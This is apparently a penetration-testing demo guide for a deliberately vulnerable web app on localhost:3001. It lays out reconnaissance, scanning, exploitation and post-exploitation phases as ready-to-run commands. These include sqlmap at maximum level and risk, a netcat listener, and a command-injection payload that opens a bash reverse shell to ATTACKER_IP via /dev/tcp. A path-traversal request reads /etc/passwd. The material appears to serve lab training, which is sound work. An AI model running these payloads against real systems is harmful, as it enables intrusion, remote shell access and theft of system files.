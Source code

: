 
## 🔍 Complete Workflow (20 Minutes)

### Phase 1: Reconnaissance (5 min)
```bash
nmap -sV -sC -p 3001 -oA scan localhost
whatweb -v http://localhost:3001
wfuzz -c -z file,/usr/share/wordlists/dirb/common.txt \
  --hc 404 http://localhost:3001/FUZZ
```

### Phase 2: Vulnerability Scanning (5 min)
```bash
nikto -h http://localhost:3001 -o nikto.html -Format html
zap-baseline.py -t http://localhost:3001 -r zap.html
npm audit --json > audit.json
```

### Phase 3: Exploitation (5 min)
```bash
# Automated
python3 kali_exploit.py

# Manual with SQLMap
sqlmap -u "http://localhost:3001/login" \
  --data='{"username":"admin@snyk.io","password":"test"}' \
  --headers="Content-Type: application/json" \
  --level=5 --risk=3 --batch
```

### Phase 4: Post-Exploitation (5 min)
```bash
# Setup listener
nc -lvnp 4444

# Trigger reverse shell via command injection
curl -X POST http://localhost:3001/create \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'content=![alt text](https://x.com/i.png;bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" "Image")'

# Exfiltrate data
curl 'http://localhost:3001/public/%2e%2e/%2e%2e/%2e%2e/etc/passwd' > passwd.txt
```

---

## 🎯 Demo Scenarios

### Scenario A: Quick Impact (5-10 min)
```
1. python3 kali_exploit.py
2. Show summary of 6/6 successful exploits
3. Demonstrate one manual exploit (NoSQL injection)
```
